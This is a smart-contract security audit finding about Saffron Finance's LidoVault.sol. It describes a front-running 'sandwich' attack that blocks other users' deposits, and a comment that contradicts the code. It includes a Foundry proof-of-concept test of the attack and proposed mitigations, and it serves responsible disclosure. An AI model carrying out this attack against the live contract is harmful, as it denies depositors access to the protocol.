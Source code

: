 Cheerful Admiral Peacock

Medium

# Sandwich Attack Vulnerability and Comment-Code Discrepancy in `LidoVault.sol:deposit` Mechanism Leads to Protocol Malfunction and Poor User Experience

### Summary:

An attacker can execute a sandwich attack to prevent legitimate users from depositing on both sides of the vault. This attack can cause protocol malfunction and lead to a poor user experience by manipulating the remaining capacity to be less than the minimum deposit amount, only allowing users to deposit the minimumDepositAmount to prevent reverts.
Additionally, there is a discrepancy between a code comment stating "no refunds allowed" and the actual implementation of the withdraw function, which does allow withdrawals (refunds) before the vault starts.
https://github.com/sherlock-audit/2024-08-saffron-finance/blob/38dd9c8436db341c331f1b14545770c1766fc0ee/lido-fiv/contracts/LidoVault.sol#L368

```solidity
// no refunds allowed
require(amount <= variableSideCapacity - variableBearerTokenTotalSupply, "OED");
```

### Root Cause:

The vulnerability stems from the check remainingCapacity >= minimumDepositAmount in the deposit function, which can be exploited by an attacker to force all user transactions above minimumDepositAmount to revert, leading to protocol malfunction and a poor user experience.

### Internal pre-conditions:
The vault has not started (!isStarted() is true).

### External pre-conditions:
The attacker can monitor the mempool and front-run transactions.
The attacker has sufficient ETH to perform the attack.

### Impact:
Legitimate users are unable to deposit to the variable side as intended.
The protocol malfunctions, not operating as designed.
Poor user experience due to failed transactions and inability to participate as expected.
Increased gas costs for users due to failed transactions.

### PoC:
The proof of concept is written for the variable side, as withdrawals in that part of the vault are instant and do not require a withdrawal request from Lido.
```solidity
 function testDdosSandwichAttack() public {
        // vault has been initialized with 100eth fixed part and 50 eth varaible part
        address attacker = makeAddr("attacker");
        address victim = makeAddr("victim");

        uint256 minimumDepositAmount = 0.01 ether; // Minimum deposit is 0.01 ETH

        // Victim attempts to deposit
        uint256 victimDeposit = 0.02 ether;
        vm.deal(victim, victimDeposit);

        // Front-run: Attacker deposits just enough to leave less than minimum deposit amount
        uint256 attackerDeposit = VARIABLE_CAPACITY - victimDeposit + 1 wei;
        vm.deal(attacker, attackerDeposit);
        vm.prank(attacker);
        lidoVault.deposit{value: attackerDeposit}(1); // Variable side

        // Victim's transaction should now revert
        vm.prank(victim);
        vm.expectRevert(bytes("OED")); // Remaining Capacity error
        lidoVault.deposit{value: victimDeposit}(1);

        // Attacker withdraws their variable part
        vm.prank(attacker);
        lidoVault.withdraw(1); // 1 for VARIABLE side

        // Assert that the attacker has successfully withdrawn
        assertEq(lidoVault.variableBearerToken(attacker), 0);
        assertEq(address(attacker).balance, attackerDeposit);

        // Assert that the vault has not started and victim couldn't deposit
        assertEq(lidoVault.isStarted(), false);
        assertEq(lidoVault.variableBearerToken(victim), 0);
    }
```

### Mitigation:
1. Remove or update the "no refunds allowed" comment to accurately reflect the contract's behavior.
2. If refunds are not intended, modify the withdraw function to disallow withdrawals before the vault starts.
3.  If refunds are intended, add a time lock to prevent user withdrawals with the behavior explained above.
